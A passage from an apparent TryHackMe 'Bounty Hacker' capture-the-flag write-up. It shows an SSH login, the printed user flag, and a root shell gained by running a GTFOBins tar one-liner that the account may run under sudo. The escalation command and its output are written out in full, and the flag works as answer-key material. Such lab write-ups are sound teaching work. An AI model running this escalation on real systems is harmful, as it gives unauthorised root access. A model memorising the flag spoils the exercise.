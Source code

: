 ```bash
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.67.0' (ED25519) to the list of known hosts.
lin@10.10.67.0's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ 
```
## Let find User.txt
```bash
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR1M3_SyNd1C4T3}
lin@bountyhacker:~/Desktop$ 
```
### That was easy 
## 5. Privilege Escalation
```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
lin@bountyhacker:~/Desktop$
```
### OK Let Find it on gtfobins

```bash
https://gtfobins.github.io/gtfobins/tar/
```
![Screenshot from 2024-04-13 16-25-27](https://github.com/Esther7171/Bounty-Hacker-TryHackMe-/assets/122229257/0ce374dd-2084-43b0-a956-40680608c57f)

### Ok Let copy all 
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
#
```
## We Got root
```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
```